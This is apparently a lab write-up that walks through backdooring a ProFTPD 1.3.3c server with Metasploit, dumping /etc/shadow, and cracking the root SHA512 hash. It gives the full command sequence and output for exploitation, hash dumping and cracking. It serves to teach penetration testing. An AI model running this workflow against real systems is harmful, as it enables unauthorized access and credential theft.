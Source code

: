 # 🔬Hashes Dumping

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.75.64.3`
> * **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
nmap -sV 192.87.153.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-22 03:52 UTC
Nmap scan report for target-1 (192.87.153.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

* &#x20;A proftpd 1.3.3c server is discovered running on the target machine. Run nmap vuln script to identify the vulnerability.

```bash
nmap -sV --script vuln -p 21 192.87.153.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
|_sslv2-drown: 
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

> The target proftpd installation has been running a backdoored vers&#x20;

```bash
searchsploit proftpd 1.3.3
```

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
service postgresql start && msfconsole -q
msf5 > search proftpd
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Start a metasploit framework and exploit proftpd server using `exploit/unix/ftp/proftpd_133c_backdoor` module.

```bash
msf5 > setg RHOSTS 192.87.153.3
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions # check available sessions
sessions 2
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hashes Dumping <a href="#hashes-dumping" id="hashes-dumping"></a>

```bash
meterpreter > cat /etc/shadow
    root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Gather Linux Password hashes with `Metasploit`

```bash
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > options
msf5 post(linux/gather/hashdump) > sessions 
msf5 post(linux/gather/hashdump) > set SESSION 2
msf5 post(linux/gather/hashdump) > run
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240722041512_default_192.87.153.3_linux.hashes_562294.txt
[*] Post module execution completed
```

* The _unshadowed password file_ is a file containing the format hashed password, ready to be cracked.

### Crack the Hash <a href="#crack-the-hash" id="crack-the-hash"></a>

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `password`
{% endhint %}
